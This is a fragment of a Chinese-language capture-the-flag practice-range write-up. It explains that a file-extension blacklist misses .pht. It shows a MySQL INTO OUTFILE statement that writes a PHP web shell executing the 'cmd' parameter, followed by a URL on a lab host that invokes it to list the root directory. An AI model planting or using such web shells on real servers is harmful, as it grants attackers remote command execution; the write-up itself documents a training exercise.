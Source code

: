 ![image-20230615110437458](%E9%9D%B6%E5%9C%BA.assets/image-20230615110437458.png)

因为这里不包括pht文件。

所以可以绕过。。。。。。。



```
select '<?php system($_GET["cmd"]); ?>' into outfile '/var/www/html/webshell.pht';
```



![image-20230615110743780](%E9%9D%B6%E5%9C%BA.assets/image-20230615110743780.png)



http://eci-2ze62tyap7hjzibphm4u.cloudeci1.ichunqiu.com/webshell.pht?cmd=ls /
